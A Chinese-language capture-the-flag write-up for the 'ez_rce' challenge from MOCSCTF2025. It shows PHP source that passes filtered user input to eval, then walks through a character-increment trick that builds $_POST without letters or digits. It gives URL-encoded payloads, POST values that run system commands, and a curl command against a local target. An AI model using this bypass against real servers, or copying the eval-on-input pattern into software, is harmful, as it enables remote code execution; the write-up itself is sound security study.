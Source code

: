 # writeup

# ez_rce

首先進入題目會自動跳轉到百度頁面，使用Burp Suite抓包後重放請求，觀察響應即可獲取提示

![image-20250507225953084](img\image-20250507225953084.png)

得到提示

```
/s3cret/rce.php
```

訪問得到題目源碼

```
<?php
highlight_file(__FILE__);

if (isset($_GET['MOCSCTF2025'])) {
    $code = $_GET['MOCSCTF2025'];

    if(!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$code)){

        eval($code);
    }
    else{
        die('hacker！！你想幹嘛！！！');
    }
}
```

經典的自增繞過

這邊演示構造POST的自增繞過方法

```
<?php
//獲取N
$_=(_/_)._;
$_=$_[_];
//自增到O並儲存O
$__=++$_;
//自增到P並儲存PO
$__=++$_.$__;
//獲取_POST
$_++;$_++;
var_dump($_=$__.++$_.++$_);
//得到$_POST[_]($_POST[__])
//$$_[_]($$_[__]);

一步步看懂就可以了
?shell=$_=(_/_)._;$_=$_[_];$__=++$_;$__=++$_.$__;$_++;$_++;$_=_.$__.++$_.++$_;$$_[_]($$_[__]);
url編碼記得對加號進行編碼，不然會被當做空格
?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
```

payload

```
GET：?shell=%24_%3D(_%2F_)._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B
POST：
_=system&__=ls /
_=system&__=cat fl49.php
```

```bash

curl -X POST http://127.0.0.1:8082/s3cret/rce.php?MOCSCTF2025=%24_%3D%28_%2F_%29._%3B%24_%3D%24_%5B_%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D%2B%2B%24_.%24__%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%2B%2B%24_.%2B%2B%24_%3B%24%24_%5B_%5D%28%24%24_%5B__%5D%29%3B -d "_=system&__=cat fl49.php"
```
